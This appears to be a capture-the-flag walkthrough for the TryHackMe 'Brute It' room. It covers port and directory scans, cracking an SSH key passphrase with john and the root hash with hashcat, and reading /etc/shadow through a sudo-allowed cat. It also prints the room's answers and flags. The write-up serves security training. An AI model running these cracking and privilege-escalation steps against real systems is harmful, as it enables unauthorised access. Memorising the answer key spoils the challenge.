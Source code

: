 # Brute It

* IP = 10.10.44.136

## Tasks/Questions:

### Task 1(Deploy):

1. Deploy the machine<br>
*No answers needed*

### Task 2(Reconnaissance):

* Nmap Scan Report:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* GoBuster Scan Report:
```bash
/admin (Status: 301)
```
1. How many ports are open?<br>

**Ans-2**

2. What version of SSH is running?<br>

**Ans-OpenSSH 7.6p1**

3. What version of Apache is running?<br>

**Ans-2.4.29**

4. Which Linux distribution is running?<br>

**Ans-Ubuntu**

5. What is the hidden directory?<br>

**Ans-/admin**

### Task 3(Getting a shell):

* We get a login page at http://IP/admin:<br>

![Screenshot](./1.png)

* Using a python script to brute force with a common wordlist(for ex: rockyou.txt)
* While checking the source, we found some strange comments:<br>
![Screenshot](./2.png)
* So, the username is probably *admin* and *john* maybe a username in the server??!🤔<br>
![Screenshot](./4.png)

1. What is the user:password of the admin panel?<br>

**Ans-admin:xavier**

* Next we login with those credentials and come to this page:<br>
![Screenshot](./3.png)
* Download the ssh private key and extract the private key passphrase hash:
* Using <a href="https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py">ssh2john</a> to extract the ssh passphrase hash:
```bash
python3 ssh2john.py id_rsa > rsa.hash
```
* Crack the hash with:
```
john rsa.hash -wordlist=rockyou.txt -format=ssh
```

2. What is John's RSA Private Key passphrase?<br>

**Ans-rockinroll**

* Login to the *SSH* server with:
```bash
chmod 600 id_rsa
ssh -i id_rsa john@IP
```
* Use the above password<br>
![Screenshot](./5.png)

3. user.txt<br>

**Ans-THM{a_password_is_not_a_barrier}**

4. Web flag<br>

**Ans-THM{brut3_f0rce_is_e4sy}**

### Task 4(Privilege Escalation):

* Checking the sudo group:
```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
* Since /bin/cat is set to NOPASSWD, we can view both the root password hash from **/etc/shadow** and the flag from **/root/root.txt** too.

![Screenshot](./6.png)
* Copy the hash and crack with *hashcat*
```bash
hashcat -m1800 -a0 hash.txt rockyou.txt -O
```
![Screenshot](./7.png)
* Escalate privileges with:

```bash
su root
```

1. What is the root's password?<br>

**Ans-football**

```bash
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

2. Root.txt<br>

**Ans-THM{pr1v1l3g3_3sc4l4t10n}**
